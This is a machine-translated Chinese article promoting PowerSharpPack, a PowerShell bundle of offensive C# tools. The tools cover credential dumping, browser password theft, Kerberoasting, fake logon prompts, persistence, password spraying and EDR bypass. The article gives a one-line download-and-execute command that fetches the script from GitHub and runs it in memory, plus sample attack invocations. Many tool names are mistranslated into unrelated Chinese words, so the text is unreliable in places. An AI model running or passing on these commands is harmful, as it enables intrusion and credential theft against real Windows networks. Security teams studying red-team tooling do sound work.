

# PowerSharpPack:攻击性 CSharp 项目被打包到 Powershell 中

> 原文：<https://kalilinuxtutorials.com/powersharppack/>

powersharpack 是一个将许多有用的攻击性 CSharp 项目整合到 Powershell 中的工具，以便于使用。

为什么？在我个人看来，令人不快的 Powershell 并没有因为 AMSI、脚本块记录、受限语言模式或其他保护功能而消亡。任何这些机制都可以被绕过。因为大多数创新的攻击性安全项目都是用 C#编写的，所以我决定让它们也能在 powershell 中使用。

*   那么我在这里基本上做了什么？
    *   首先克隆每个 C#回购协议。
    *   将类和主方法设置为公共的
    *   对于一些项目，我将 pull 请求与新特性或错误修复合并，或者我必须删除 environment.exit 语句，这样整个 powershell 进程就不会因为缺少参数等原因而终止
    *   然后编译每个二进制文件
    *   Gzip-compress 和 base64-encoding 编译后的二进制 base64，通过`[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)`加载到 powershell 中。

这是一个非常容易，但对许多回购费时的过程。

包含哪些工具？

*   **国际语言学**

内心独白攻击:在不触及 LSASS 的情况下检索 NTLM 哈希

@ Credit to:[https://github.com/eladshamir/Internal-Monologue](https://github.com/eladshamir/Internal-Monologue)

*   **安全带**

Seatbelt 是一个 C#项目，它执行许多面向安全的主机调查“安全检查”,这些检查从攻击性和防御性安全角度都是相关的。

@ Credit to:[https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

*   夏普网

。NET 2.0 CLR 项目，从 Google Chrome、Mozilla Firefox 和 Microsoft Internet Explorer/Edge 中检索保存的浏览器凭据。

@ Credit to:[https://github.com/djhohnstein/SharpWeb](https://github.com/djhohnstein/SharpWeb)

*   **城市书店**

在 UrbanBishop 中创建一个本地 RW 部分，然后将该部分作为 RX 映射到一个远程进程中。外壳代码加载变得容易。

@ Credit to:[https://github.com/FuzzySecurity/Sharp-Suite](https://github.com/FuzzySecurity/Sharp-Suite)

*   **夏普普**

SharpUp 是各种加电功能的 C#端口。

@ Credit to:[https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)

*   **风疹**

Rubeus 是一个用于原始 Kerberos 交互和滥用的 C#工具集。

@ Credit to:[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)&&[https://github.com/gentilkiwi/kekeo/](https://github.com/gentilkiwi/kekeo/)

*   **最锋利的**

用 C#编写的 Windows 持久性工具包。

@ Credit to:[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist)

*   **锐视**

harmj0y 的 PowerView 的 C#实现

@ Credit to:[https://github.com/tevora-threat/SharpView](https://github.com/tevora-threat/SharpView)

*   **winPEAS**

查看 book.hacktricks.xyz 中的本地 Windows 权限提升清单

@ Credit to:[https://github . com/Carlos polop/privilege-escalation-awesome-scripts-suite/tree/master/win peas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

*   **无锁**

无锁允许复制锁定的文件。

@ Credit to:[https://github.com/GhostPack/Lockless](https://github.com/GhostPack/Lockless)

*   夏普铬

。NET 4.0 CLR 项目来检索 Chromium 数据，如 cookies、历史记录和保存的登录信息。

@ Credit to:[https://github.com/djhohnstein/SharpChromium](https://github.com/djhohnstein/SharpChromium)

*   **SharpDPAPI**

SharpDPAPI 是一些 Mimikatz DPAPI 功能的 C#端口。

@ Credit to:[https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)&&[https://github.com/gentilkiwi/mimikatz/](https://github.com/gentilkiwi/mimikatz/)

*   **shares**

枚举当前域中的所有网络共享。此外，还可以将名称解析为 IP 地址。

@ Credit to:[https://github.com/djhohnstein/SharpShares](https://github.com/djhohnstein/SharpShares)

*   **锐利者**

通过用户名和登录 IP 地址在 active directory 中查找特定用户

@ Credit to:[https://github.com/HunnicCyber/SharpSniper](https://github.com/HunnicCyber/SharpSniper)

*   **尖锐的祈祷**

SharpSpray 一个简单的代码集，使用 LDAP 对一个域的所有用户执行密码喷射攻击，与 Cobalt Strike 兼容。

@ Credit to:[https://github.com/jnqpblc/SharpSpray](https://github.com/jnqpblc/SharpSpray)

*   **沃森**

列举缺失的 kb，并建议利用有用的权限提升漏洞

@ Credit to:[https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

*   **分组 2**

查找 AD 组策略中的漏洞

@ Credit to:[https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)

*   **记号赋予器**

使用 Windows 令牌提升权限的工具

@ Credit to:[https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)

*   **蜥蜴眼**

搜索工具，用于查找包含特定单词的特定文件，即包含密码的文件。

@ Credit to:[https://github.com/vivami/SauronEye](https://github.com/vivami/SauronEye)

*   只需加载主脚本

`**iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')**`

*   并选择工具作为开关参数，例如:

`**PowerSharpPack -seatbelt -Command "AMSIProviders"**`

如果你想给二进制文件传递多个参数，你可以使用引号，比如:

`**PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"**`

如果您出于某种原因不想加载所有二进制文件，您可以使用位于 PowerSharpBinaries 文件夹中的每二进制 Powershell 脚本。

也可作为独立 powershell 脚本使用的项目:

*   **夏普云**

用于检查与 AWS、Microsoft Azure 和 Google Compute 相关的凭证文件是否存在的简单 C#。

@ Credit to:[https://github.com/chrismaddalena/SharpCloud](https://github.com/chrismaddalena/SharpCloud)

*   **sharps DP**

SSDP 服务发现

@ Credit to:[https://github.com/rvrsh3ll/SharpSSDP](https://github.com/rvrsh3ll/SharpSSDP)

*   **愚蠢的**

DAFT:数据库审计框架和工具包

@ Credit to:[https://github.com/NetSPI/DAFT](https://github.com/NetSPI/DAFT)

*   **获取 RBCD 螺纹**

用于发现活动目录环境中基于资源的受限委派攻击路径的工具

@ Credit to:[https://github.com/FatRodzianko/Get-RBCD-Threaded](https://github.com/FatRodzianko/Get-RBCD-Threaded)

*   **sharp GPO-RemoteAccessPolicies**

通过组策略枚举远程访问策略的 C#工具。

@ Credit to:[https://github . com/FSecureLABS/sharp GPO-RemoteAccessPolicies](https://github.com/FSecureLABS/SharpGPO-RemoteAccessPolicies)

*   **SharpAllowedToAct**

通过基于资源的约束委派接管计算机对象(msDS-allowedtoactonbehalfotheridentity)

@ Credit to:[https://github.com/pkb1s/SharpAllowedToAct](https://github.com/pkb1s/SharpAllowedToAct)

*   **窃听**

。NET 4.0 项目与视频、音频和键盘硬件进行交互。

@ Credit to:[https://github.com/djhohnstein/WireTap](https://github.com/djhohnstein/WireTap)

*   **SharpClipboard**

C#剪贴板监视器

@ Credit to:[https://github.com/slyd0g/SharpClipboard](https://github.com/slyd0g/SharpClipboard)

*   **夏普打印机**

发现打印机+检查漏洞

@ Credit to:[https://github.com/rvrsh3ll/SharpPrinter](https://github.com/rvrsh3ll/SharpPrinter)

*   夏普德

创建隐藏注册表项的工具。

@ Credit to:[https://github.com/outflanknl/SharpHide](https://github.com/outflanknl/SharpHide)

*   **SpoolSample**

强制 Windows 主机通过 MS-RPRN RPC 接口向其他机器进行身份验证的 PoC 工具。这也可以通过其他协议来实现。

@ Credit to:[https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

*   **shargpoabuse**

SharpGPOAbuse 是一个用 C#编写的. NET 应用程序，可用于利用用户对组策略对象(GPO)的编辑权限来危害由该 GPO 控制的对象。

@ Credit to:[https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

*   **SharpDump**

SharpDump 是 PowerSploit 的 Out-Minidump.ps1 功能的 C#端口。

@ Credit to:[https://github.com/GhostPack/SharpDump](https://github.com/GhostPack/SharpDump)

*   **SharpHound3**

BloodHound 项目的 C#数据收集器，版本 3

@ Credit to:[https://github.com/BloodHoundAD/SharpHound3](https://github.com/BloodHoundAD/SharpHound3)

*   **夏普洛克**

SharpLocker 通过弹出一个假的 Windows 锁屏来帮助获取当前用户凭证，所有输出都被发送到控制台，这对于 Cobalt Strike 来说是完美的。

@ Credit to:[https://github.com/Pickfordmatt/SharpLocker](https://github.com/Pickfordmatt/SharpLocker)

*   **目击者**

Witness 的设计目的是获取网站截图，提供一些服务器标题信息，并在可能的情况下识别默认凭证。

@ Credit to:[https://github.com/FortyNorthSecurity/EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness)

*   **FakeLogonScreen**

伪造的 Windows 登录屏幕来窃取密码

@ Credit to:[https://github.com/bitsadmin/fakelogonscreen](https://github.com/bitsadmin/fakelogonscreen)

*   **p0ownedshell**

PowerShell 运行空间后期开发工具包

@ Credit to:[https://github.com/Cn33liz/p0wnedShell](https://github.com/Cn33liz/p0wnedShell)

*   **纯棉制品**

SafetyKatz 是由@ gentilkiwi 的 Mimikatz 项目和@subTee 的稍微修改版本组合而成。NET PE Loader 我用自己的模糊 Mimikatz 版本再次修改了这个。

@ Credit to:[https://github.com/GhostPack/SafetyKatz](https://github.com/GhostPack/SafetyKatz)

*   **InveighZero**

windows C # LLMNR/mDNS/NBNS/DNS/DHCP V6 欺骗器/中间人工具。

@ Credit to:[https://github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)

*   **SharpSploit**

SharpSploit 是一个用 C#编写的. NET 后期开发库。

@ Credit to:[https://github.com/cobbr/SharpSploit](https://github.com/cobbr/SharpSploit)

*   **斯纳弗勒**

pentesters 帮助寻找美味糖果的工具，作者@ l0ss 和@Sh3r4 ( Twitter: @/mikeloss 和@/sh3r4_hax)。

@ Credit to:[https://github.com/SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)

*   **马铃薯**

C#中的 itm4ns Printspoofer。

@ Credit to:[https://github.com/BeichenDream/BadPotato](https://github.com/BeichenDream/BadPotato)

*   **BetterSafetyKatz**

SafetyKatz 的分支，直接从 gentilkiwi GitHub repo、运行时补丁签名和使用 SharpSploit DInvoke 动态获取 Mimikatz 的最新预编译版本，以 PE 加载到内存中。

@ Credit to:[https://github.com/Flangvik/BetterSafetyKatz](https://github.com/Flangvik/BetterSafetyKatz)

*   夏普卡茨

mimikatz sekurlsa::logon passwords、sekurlsa::ekeys 和 lsadump::dcsync 命令的 C#端口。

@ Credit to:[https://github.com/b4rtik/SharpKatz](https://github.com/b4rtik/SharpKatz)

*   **地鼠**

C#工具发现低挂水果。

@ Credit to:[https://github.com/EncodeGroup/Gopher](https://github.com/EncodeGroup/Gopher)

*   **SharpOxidResolver**

空中客车安全公司的 IOXIDResolver。

@ Credit to:[https://github.com/vletoux/pingcastle/](https://github.com/vletoux/pingcastle/)

*   **SharpBlock**

一种通过阻止入口点执行来绕过 EDR 主动投影 DLL 的方法。

@ Credit to:[https://github.com/CCob/SharpBlock](https://github.com/CCob/SharpBlock)

*   **SharpLoginPrompt**

这个程序创建一个登录提示来收集当前用户的用户名和密码。该项目允许红队窃取当前用户的用户名和密码，而无需接触 lsass 和系统上的管理员凭据。

@ Credit to:[https://github.com/shantanu561993/SharpLoginPrompt](https://github.com/shantanu561993/SharpLoginPrompt)

*   **ThunderFox**

从 Thunderbird 和 Firefox 中检索数据(联系人、电子邮件、历史记录、cookies 和凭证)。

*   **StickyNotesExtract**

从 Windows 便笺数据库中提取数据。适用于 Windows 10 Build 1607 和更高版本。这个项目不依赖任何外部依赖。

@ Credit to:[https://github.com/V1V1/SharpScribbles](https://github.com/V1V1/SharpScribbles)

*   **SCShell**

依赖 ChangeServiceConfigA 运行命令的无文件横向移动工具。

@ Credit to:[https://github.com/Mr-Un1k0d3r/SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

*   **sharpmapeexec**

一个锐化版的 [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) 。如果要将多个参数传递给二进制文件，请使用引号。

@ Credit to:[https://github.com/cube0x0/SharpMapExec](https://github.com/cube0x0/SharpMapExec)

[**Download**](https://github.com/snovvcrash/PowerSharpPack)